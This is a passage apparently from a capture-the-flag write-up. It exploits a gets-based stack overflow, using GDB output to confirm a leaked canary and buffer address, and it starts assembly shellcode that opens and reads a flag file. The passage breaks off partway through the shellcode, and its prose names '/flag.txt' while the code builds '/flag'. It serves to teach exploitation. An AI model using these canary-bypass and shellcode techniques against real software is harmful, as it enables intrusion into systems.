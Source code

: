 Now, we can check if the value at `[rbp-0x8]` is indeed the same as what was printed.

```ansi [GDB output checking canary]
pwndbg> x/4x $rbp-0x8
0x7fffffffdc48: 0xfc6cb400      0xb6fbf3c3      0xffffdc60      0x00007fff
```

The value stored at `rbp-0x8` is `0xb6fbf3c3fc6cb400`, which is exactly the same as what was printed. So we have confirmed that the second address printed is the canary.

::ProseAlert
By running `x/4x $rbp-0x8`, we are telling gdb to show us the memory at `$rbp-0x8`. This is equivalent to `[rbp-0x8]`.

If we were to run `p $rbp-0x8`, we would merely get the result of `$rbp-0x8`, which is an address only.
::

If we break at `fun+143`, which right at the `gets` call then continue running the function:

```ansi [GDB output checking apartment buffer]
 ► 0x5555555554c8 <fun+143>    call   gets@plt                    <gets@plt>
        rdi: 0x7fffffffdbc0 —▸ 0x7fffffffdc50 —▸ 0x7fffffffdc60 ◂— 1
        rsi: 0x7fffffffda00 ◂— 'You are lucky that I am making a limited time offer, just HKD 0xb6fbf3c3fc6cb400 for 0x88 bytes storage!\nment\n'
        rdx: 0
        rcx: 0
```

The first argument passed to `gets` is the buffer where data is read to. It is `0x7fffffffdbc0`, which is the same as the address of the `apartment` buffer printed earlier. So we've also confirmed that the first leak is the `apartment` buffer where we are allowed input.

## Developing the Exploit

On to the exciting part! We need to put together what we know to print `compartment.txt` to give us the flag.

We'll be using [pwntools](https://docs.pwntools.com/en/stable/) to write the exploit.

### Crafting the shellcode

Since the stack is executable, the easiest way to read the file is to use shellcode.

The below boilerplate (written in nasm) will allow us to print the contents of `/flag.txt`.

```asm [shellcode.s]
.global _start

_start:
.intel_syntax noprefix

; --- 1. Construct String: "/flag\x00" ---
; The hex value 0x0067616c662f corresponds to:
; 00 (null terminator) + 67 61 6c 66 (flag) + 2f (/)
mov rbx, 0x0067616c662f
push rbx ; pushes the flag string onto the stack at $rsp
mov rdi, rsp ; rdi now points to the string

; --- 2. Syscall: open("/flag", O_RDONLY) ---
; rdi already holds the pointer to the string
mov rsi, 0 ; O_RDONLY flag
mov rdx, 0 ; mode, ignored for O_RDONLY
mov rax, 2 ; syscall number for open
syscall ; rax now holds the file descriptor (fd)

; --- 3. Syscall: read(fd, rsp, 100) ---
mov rdi, rax ; rdi = fd (from open call)
mov rsi, rsp ; rsi is the buffer to store data, reusing the stack
```